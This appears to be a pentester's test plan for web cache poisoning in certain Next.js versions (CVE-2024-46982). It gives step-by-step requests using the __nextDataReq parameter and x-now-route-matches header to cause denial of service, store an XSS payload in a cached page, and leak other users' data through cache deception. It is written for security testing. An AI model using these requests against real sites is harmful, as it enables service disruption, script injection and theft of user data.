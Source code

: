 # Cache Poisoning Test Plan for Next.js

{% embed url="https://zhero-web-sec.github.io/research-and-things/nextjs-cache-and-chains-the-stale-elixir" %}

### 1. Reconnaissance

* **Identify Next.js**: Check for `/api/`, `_next/` paths, or `X-Powered-By: Next.js` header.
* **Verify Version**: Review source (e.g., `<script id="__NEXT_DATA__">`) for `buildID` or version clues (13.5.1–14.2.9).
* **Detect SSR**: Target pages using `getServerSideProps` (dynamic data, e.g., `/dashboard`). Avoid dynamic routes (e.g., `/blog/[slug]`).
* **Check Caching**: Send repeated requests; look for `Cache-Control` or CDN headers (e.g., `Server: cloudflare`).

### 2. Test DoS via Cache Poisoning

* **Setup**: Use Burp Repeater/Intruder; identify SSR page (e.g., `/poc`).
* **Test 1: `__nextDataReq` Parameter**
  * Send: `GET /poc?__nextDataReq=1`
  * Check: JSON `pageProps` response (e.g., `{"userAgent":"..."}`).
  * Re-request `/poc` without param; if JSON served, cache poisoned (DoS).
* **Test 2: `x-now-route-matches` Header**
  * Send: `GET /poc?__nextDataReq=1` with `x-now-route-matches: 1`.
  * Verify: `Cache-Control: s-maxage=1, stale-while-revalidate`; re-request `/poc` for JSON.
* **Test 3: Data Route**
  * Extract `buildID` from `<script id="__NEXT_DATA__">`.
  * Send: `GET /_next/data/{buildID}/poc.json` with `x-now-route-matches: 1`.
  * Confirm: JSON cached; `/poc` serves JSON.
* **Safeguard**: Test with `Accept-Encoding: none` if header is in cache-key to avoid impacting users.

### 3. Test Stored XSS

* **Identify Reflection**: Check if SSR page reflects request data (e.g., user-agent, cookies, CSRF token).
* **Craft Payload**:
  * Send: `GET /poc?__nextDataReq=1` with `User-Agent: <img src=x onerror=alert('test')>` and `x-now-route-matches: 1`.
  * Verify: Cached `/poc` response is `text/html` with payload.
  * Access `/poc` in browser; confirm alert triggers.
* **Common Reflections**: User-agent, locale cookies, session IDs, CSRF headers, theme preferences.

### 4. Test Cache Deception

* **Target Sensitive Data**: Check if SSR reflects user-specific data (e.g., session cookies).
* **Send Payload**: Use above methods to cache victim’s response.
* **Verify**: Access `/poc` to see if sensitive data is served.
* **References**:
  * Advisory: https://github.com/advisories/GHSA-gp8f-8m3g-qvj9
  * PortSwigger Cache Poisoning: https://portswigger.net/web-security/web-cache-poisoning

#### Automation

{% embed url="https://github.com/h0tak88r/nuclei_templates/blob/ffabf2473eb510b71c07091ec03a4fdf0e07f557/cves/CVE-2024-46982.yaml" %}
